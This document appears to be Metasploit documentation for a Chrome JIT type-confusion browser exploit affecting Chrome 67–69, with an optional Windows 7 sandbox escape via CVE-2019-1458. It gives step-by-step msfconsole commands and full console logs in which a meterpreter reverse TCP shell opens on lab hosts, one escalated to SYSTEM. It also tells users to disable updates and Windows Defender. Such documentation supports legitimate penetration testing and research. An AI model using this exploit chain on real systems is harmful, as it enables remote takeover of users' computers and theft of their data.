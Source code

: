 ## Vulnerable Application
This modules exploits a type confusion in Google Chromes JIT compiler.
The Object.create operation can be used to cause a type confusion between a PropertyArray and a NameDictionary.
The type confusion can be used to construct a arbitrary read/write memory primitive, which is
used to write shellcode into rwx region of a WebAssembly object.

This module can target the renderer process (target 0), but Google Chrome must be launched
with the --no-sandbox flag for the payload to execute successfully.

Alternatively, this module can use CVE-2019-1458 to escape the renderer sandbox (target 1). This
will only work on vulnerable versions of Windows (e.g Windows 7) and the exploit can only be triggered once.

Additionally the exploit can cause the target machine to restart when the session is terminated.
A BSOD is also likely to occur when the system is shut down or rebooted.

The module is compatible with any 64bit Google Chrome (version 67, 68 or 69), on any platform (macOS, Linux or Windows),
however the code that writes the shellcode into the rwx region (wasm_rwx_addr) may need to be modified.

**Vulnerable Application Installation Steps**

You can download a vulnerable Chrome version from this location:
[https://www.filepuma.com/download/google_chrome_64bit_69.0.3497.100-20128/](https://www.filepuma.com/download/google_chrome_64bit_69.0.3497.100-20128/)

You should ensure that application does not update itself to the latest version
(by disabling automatic updates or simply not connecting to the internet)
You may also need to disable Windows Defender.

## Verification Steps

1. Do: `use exploit/multi/browser/chrome_object_create`
1. Do: `set target [0|1]`
2. Do: `set payload windows/x64/meterpreter/reverse_tcp`
2. Do: `set LHOST [IP]`
3. Do: `set SRVHOST [IP]`
3. Do: `set URIPATH / [PATH]`
4. Do: `run`

## Options

### TARGET
```
Id  Name
--  ----
0   No sandbox escape (--no-sandbox)
1   Windows 7 (x64) sandbox escape via CVE-2019-1458
```

## Scenarios

### Windows 10 and Google Chrome 69.0.3497.100 with --no-sandbox (target 0)

Start Google Chrome without a sandbox:
`"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --no-sandbox`

```
msf > use exploit/multi/browser/chrome_object_create
msf exploit(multi/browser/chrome_object_create) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf exploit(multi/browser/chrome_object_create) > set URIPATH /
URIPATH => /
msf exploit(multi/browser/chrome_object_create) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/browser/chrome_object_create) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf exploit(multi/browser/chrome_object_create) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf exploit(multi/browser/chrome_object_create) >
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Using URL: http://192.168.56.1:8080/
[*] Server started.
[*] 192.168.56.3     chrome_object_create - Sending / to Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
[*] Sending stage (206403 bytes) to 192.168.56.3
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.3:49682) at 2020-02-29 14:29:06 +0800

msf exploit(multi/browser/chrome_object_create) > sessions 1
[*] Starting interaction with 1...

meterpreter > pwd
C:\Program Files (x86)\Google\Chrome\Application\69.0.3497.100
meterpreter >
```


### Windows 7 SP1 and Google Chrome 69.0.3497.100 with CVE-2019-1458 (target 1)

```


msf > use exploit/multi/browser/chrome_object_create
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf exploit(multi/browser/chrome_object_create) > set target 1
target => 1
msf exploit(multi/browser/chrome_object_create) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/browser/chrome_object_create) > set URIPATH /
URIPATH => /
msf exploit(multi/browser/chrome_object_create) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf exploit(multi/browser/chrome_object_create) > set SRVHOST 192.168.56.1
SRVHOST => 192.168.56.1
msf exploit(multi/browser/chrome_object_create) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf exploit(multi/browser/chrome_object_create) >
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Using URL: http://192.168.56.1:8080/
[*] Server started.
[*] 192.168.56.3     chrome_object_create - Sending / to Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.92 Safari/537.36
[*] 192.168.56.3     chrome_object_create - Sending / to Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.92 Safari/537.36
[*] 192.168.56.3     chrome_object_create - Sending /payload to Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.92 Safari/537.36
[+] 192.168.56.3     chrome_object_create - Sent stage2 exploit (20000 bytes)
[*] Sending stage (200262 bytes) to 192.168.56.3
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.3:49159) at 2020-10-12 18:51:15 +0800
[*] Session ID 1 (192.168.56.1:4444 -> 192.168.56.3:49159) processing InitialAutoRunScript 'post/windows/manage/priv_migrate'
[*] Current session process is chrome.exe (2528) as: NT AUTHORITY\SYSTEM
[*] Session is already Admin and System.
[*] Will attempt to migrate to specified System level process.
[*] Trying services.exe (480)
[+] Successfully migrated to services.exe (480) as: NT AUTHORITY\SYSTEM

msf exploit(multi/browser/chrome_object_create) > sessions

Active sessions
===============

  Id  Name  Type                     Information                    Connection
  --  ----  ----                     -----------                    ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ USER-PC  192.168.56.1:4444 -> 192.168.56.3:49159 (192.168.56.3)
```
